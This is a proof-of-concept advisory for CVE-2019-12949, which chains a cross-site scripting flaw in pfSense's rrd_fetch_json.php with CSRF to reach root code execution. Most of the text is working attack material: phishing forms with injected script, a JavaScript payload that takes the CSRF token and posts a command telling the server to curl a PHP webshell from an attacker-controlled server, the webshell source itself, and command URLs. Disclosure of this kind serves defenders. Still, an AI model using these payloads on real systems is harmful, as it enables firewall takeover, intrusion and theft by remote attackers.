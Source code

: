 # [CVE-2019-12949] From Cross Site Scripting Vulnerability to Remote Code Execution in pfSense 2.4.4-p2 and 2.4.4-p3

## Information Description:

In pfSense 2.4.4-p2 and 2.4.4-p3, if it is possible to trich the authenticated administrator into clicking on a button on a phishing page, an attacker can upload arbitrary executable code via ding_command.php and rrd_fetch_json.php, to a server. Then, the remote attacker can run any command with root privileges on that server.

**Researcher: Enter of The Tarantula Team, VinCSS (a member of Vingroup)**

# PoC XSS 
Attack vector: **https://pfSense_IP_Address/rrd_fetch_json.php**
 
Send a POST request: 

```html
<form action="https://[PFsense-domain]/rrd_fetch_json.php" method="post">
	<input type="hidden" name="left" value="system-processor"><br>
	<input type="hidden" name="right" value="null"><br>
	<input type="hidden" name="start" value=""><br>
	<input type="hidden" name="end" value=""><br>
	<input type="hidden" name="resolution" value="300"><br>
	<input type="hidden" name="timePeriod" value="i3i3j<script>alert(1)</script>tz9b1"><br>
	<input type="hidden" name="graphtype" value="line"><br>
	<input type="hidden" name="invert" value="true"><br>
	<input type="hidden" name="refreshInterval" value="0">
  <h1>Congratulations on receiving the reward from us</h1>
  <h1>Click to receive gifts</h1>
  <input type="submit" value="Submit">
</form>
```

# XSS to RCE

Attacker can create a phishing site like this to exploit the XSS vulnerability on pfsense:

```html
<form action="https://[PFsense-domain]/rrd_fetch_json.php" method="post">
	<input type="hidden" name="left" value="system-processor"><br>
	<input type="hidden" name="right" value="null"><br>
	<input type="hidden" name="start" value=""><br>
	<input type="hidden" name="end" value=""><br>
	<input type="hidden" name="resolution" value="300"><br>
	<input type="hidden" name="timePeriod" value="i3i3j<script src='https://[Attacker-Server]/payload.js'></script>tz9b1"><br>
	<input type="hidden" name="graphtype" value="line"><br>
	<input type="hidden" name="invert" value="true"><br>
	<input type="hidden" name="refreshInterval" value="0">
  <h1>Congratulations on receiving the reward from us</h1>
  <h1>Click to receive gifts</h1>
  <input type="submit" value="Submit">
</form>
```

The payload.js file in attacker's server will contain the following Javascript code (Payload):

```javascript
<script>
	var xhr = new XMLHttpRequest();
	xhr.open("GET", "https://[PFsense domain]/diag_command.php", false);
	xhr.withCredentials=true;
	xhr.send(null);
	var resp = xhr.responseText;
	console.log(resp);
	var start_idx = resp.indexOf('name=\'__csrf_magic\' value="');
	var end_idx = resp.indexOf('" />', start_idx);
	var token = resp.slice(start_idx + 27, end_idx);
	console.log(token);
// now execute the CSRF attack using XHR along with the extracted token
	var xhr1 = new XMLHttpRequest();
	xhr1.open("POST", "https://[PFsense-domain]/diag_command.php", false);
	xhr1.withCredentials=true;
	var params = "__csrf_magic="+token+"&txtCommand=curl https://[Attacker-Server]/shell.txt > a.php&submit=EXEC";
	xhr1.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
	xhr1.setRequestHeader("Content-length", params.length);
	xhr1.send(params);
</script>
```

The shell.txt file in attacker's server will contain any PHP webshell contents, like this:

```php
<?php
	system($_REQUEST['cmd']); // allow remote attacker to run commands on victim server
	phpinfo(); // show phpinfo
?>
```

Finally, the attacker will trick the authenticated pfsense administrators (victim) to access the phishing site and click the 'Submit' button on phishing site. Then the victim will be redirected to the pfsense admin site, and webshell of the attacker will automatically be successfully loaded onto pfsense server.

From there, the remote attacker can execute arbitrary code as root on pfsense server:

```
https://[PFsense-domain]/a.php?cmd=whoami
https://[PFsense-domain]/a.php?cmd=ls
```
